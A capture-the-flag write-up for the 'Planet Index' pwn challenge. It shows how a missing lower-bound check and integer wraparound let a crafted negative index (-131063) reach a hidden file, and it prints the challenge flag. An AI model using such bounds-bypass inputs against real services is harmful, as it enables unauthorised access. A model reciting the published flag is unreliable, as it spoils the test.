

# Challenge "Planet Index"
 

**Difficulty:** ⚖️ medium | **Category:** 💀 pwn

Welcome to the Index of Planets!

    nc ch.hackyeaster.com 2403

Note: The service is restarted every hour at x:00.

# Solution
When accessing this service with netcat, we are pleased with an planet index service. On this service, we can enter an index and receive information about the selected planet:

    ➜  Planet Index git:(main) ✗ nc ch.hackyeaster.com 2403
    ------------
    PLANET INDEX

    last update: August 2006
    ------------
    1 Mercury
    2 Venus
    3 Earth
    4 Mars
    5 Jupiter
    6 Saturn
    7 Uranus
    8 Neptune
    ------------
    Enter the index of the planet > 1
    ------------
    Mercury, small and bright, close to the light,
    From scorching heat to freezing night.

    ➜  Planet Index git:(main) ✗ 

Interesstingly, the last update was on August 2006, when Pluto was downgraded from the ninth planet from the sun to a dwarf planet. Therefore we can assume, that the flag is related to 9 (Pluto).

When entering 9 as index, we receive an error. This indicates that all numbers above the indexes are checked and denied:

    Enter the index of the planet > 9
    Invalid index! Quitting.

When entering 0, we receive another error. This indicates, that values below the possible indexes are not checked:

    Enter the index of the planet > 0
    ------------
    cat: /usr/src/planetindex/planet-0.txt: No such file or directory

When entering a big negative number like -10000, we are pleased with an integer overflow:

    Enter the index of the planet > -10000
    ------------
    cat: /usr/src/planetindex/planet-55536: No such file or directory

So now it is obvious, that we have to enter a big negative number, which will lead to 9 because of the overflow. This happens for example with the input "-131063":

    Enter the index of the planet > -131063
    ------------
    Pluto, roses are red,
    here's your flag: he2024{plut0_41nt_n0_plan3t_n0_m0r3}

## The Flag 🚩
    he2024{plut0_41nt_n0_plan3t_n0_m0r3}
